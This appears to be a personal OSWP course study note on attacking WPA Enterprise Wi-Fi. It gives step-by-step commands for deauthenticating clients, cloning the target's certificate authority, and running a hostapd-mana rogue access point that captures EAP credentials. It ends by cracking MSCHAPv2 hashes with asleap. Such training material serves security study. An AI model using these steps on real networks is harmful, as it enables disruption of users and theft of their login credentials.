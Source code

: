 ```yaml
---
{"dg-publish":true,"permalink":"/OSWP/7. Enterprise Cracking/"}
---
```


-------------
### Theory
- Authentication is done using a RADIUS server
- EAP frames are relayed from AP to RADIUS, if successful a PMK is used in a 4-way handshake
- Authentication methods:
	- EAP-TLS
		- One of the most secure
		- Certificates on both server and client side
	- EAP-TTLS
		- Does not necessarily need client certificates
		- Creates a tunnel to exchange credentials using different inner/phase2 methods
			- Challenge-Handshake Authentication Protocol (CHAP)
			- Authentication Protocol (PAP)
			- Microsoft CHAP (MS-CHAP)
			- MS-CHAPv2
	- PEAP
		- TLS tunnel with most commonly MS-CHAPv2
- AUTH: MGT means WPA Enterprise

### Walkthrough:
1. Generate/validate certificate:
```
openssl x509 -in <name.crt/pem> -noout -enddate
```
2. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
3. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
4. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
5. Open capture in Wireshark and filter for:
```
tls.handshake.certificate
```
6. _Extensible Authentication Protocol_ > _Transport Layer Security_
7. Find the certificates and right-click for "Export Packet Bytes"
8. Convert the .der into a .crt:
```
openssl x509 -inform der -in <file.der> -outform pem -out <file.crt>
```
9. Edit [certificate_authority] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/ca.cnf
```
Example:
```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```
10. Edit [server] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/server.cnf
```
Example:
```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```
11. Delete the diffie-hellman file and any previous certs and make the cert:
```
make destroycerts
sudo rm /etc/freeradius/3.0/certs/dh
make
```
12. Generate the mana.conf file and set SSID:
```
# SSID of the AP
ssid=<ssid-name>

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
13. Create the EAP user file referenced in the conf-file:
```
sudo nano /etc/hostapd-mana/mana.eap_user
```
Paste:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
14. Start hostapd-mana with the conf-file:
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
15. Catch credentials in: /tmp/hostapd.credout
16. Crack with asleap:
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```